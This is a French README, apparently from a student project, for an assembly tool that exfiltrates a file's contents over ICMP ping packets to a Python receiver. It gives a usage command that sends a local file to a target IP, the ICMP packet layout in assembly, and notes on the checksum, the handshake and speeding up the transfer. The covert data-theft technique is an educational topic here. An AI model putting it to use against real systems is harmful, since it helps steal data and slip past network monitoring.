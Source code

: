 # Exfiltration de données par ICMP

## asm_icmp_leaker

### Compilation

Pour compiler le projet, il suffit de lancer le script build.sh.

```
./build.sh
```

### Utilisation

Le script doit etre lancé en sudo pour pouvoir envoyer des paquets ICMP. Car le script ouvre un socket raw pour envoyer les paquets ICMP. Qui necessite donc des droits root.

```
sudo ./main 127.0.0.1 test.txt
```

Préciser dans le script python :

```
target_ip = "127.0.0.1"
output_file = "output.txt"


```

```
# en meme temps
# va créer un fichier output.txt
python3 main.py
```

### Information

Ce script va exfiltré les données du fichier passé en paramètre par ICMP. Il va lire le fichier et envoyer le contenu du découpé en plusieurs partie.
Le script va attendre une réponse ICMP pour envoyer le caractère suivant de facon a ne pas avoir de perte d'information.

### Element du code

#### Structure d'un ping

##### Nos recherches

La grande complexité de ce projet a été de trouver la structure d'un ping. En effet, il n'existe pas de documentation officielle sur la structure d'un ping. Nous avons donc du faire des recherches pour trouver la structure. Pour ca nous avons utilisé plusieurs méthodes :

- Lecture des RFC
- Reverse d'un pacquet avec wireshark
- Site divers + IA

![Image icmp](image/icmp.png)

##### Le code

Ceci est la structure d'un ping. C'est celle que nous avons implémenté dans notre code.

```asm
address: 
  dw 2            ; Famille d'adresses 2 = AF_INET = IPv4
  dw 0            ; Numéro de port (ignoré pour le ping)
  db 0,0,0,0      ; IPv4 de destination
  dd 0            ; remplissage)
  dd 0            ; Pour aligner

packet:
  dw 0x0008       ; Type echo Request
  dw 0x0000       ; Checksum (initialisé à 0, calculé ensuite)
  dw 0x000a       ; Identifiant ; non utilisé
  dw 0x0002       ; Numéro de séquence ; non utilisé
  dw 0xad18       ; Timestamp ; non utilisé
  dw 0x8c67       ; Timestamp ; non utilisé
  dw 0x0000       ; Remplissage
  dw 0x0000       ; Remplissage

data: 
  times 24 dw 0x0000 ; données envoyé - bourrage
```

### Le checksum

Dans un pacquet ICMP se trouve un checksum. Celui ci sert a valider que les données ( donc le ping ) sont intact et donc que la communication est fonctionel.
Dans le cas ou de la donnée serait perdu , alors le checksum serait erronné et aucun pacquet ne serait envoyé en retour.

IL a donc falluy pour notre projet implementer un handshake pour valider que les données sont bien arrivé.

Il s'agit ici d'un internet checksum.

Le checksum consiste en une addition de tout les word du header du pacquet.
Puis d'un décalage de bit du resultat.
Il est ensuite inversé et ajouté au pacquet.

![Image CHECKSUM](image/checksum.jpg)

Plus de detail dans le code.

### La validation des données

Nous avons également implémenté une méchanique d'attente du pâcquet de retour pour valider que les données sont bien arrivé. On atttendra que le pacquet de retour soit bien le bon pour envoyer le suivant.

### Possibilité d'acceleration

Egalement nous pourrions retirer le handshake pour eviter un retour et accelerer l'envoi de donnée , mais cela ne garanti pas l'intégrité des données.
Bien que 100 fois plus rapide. Cela serait potentielement utilisé dans des cas spécifique.

### Le serveur PYTHON

Coté serveur nous avons un script python, qui réceptionne les ping et les inscrit dans un fichier.
Il n'y a pas d'utilité a faire de l'assembleur coté serveur.
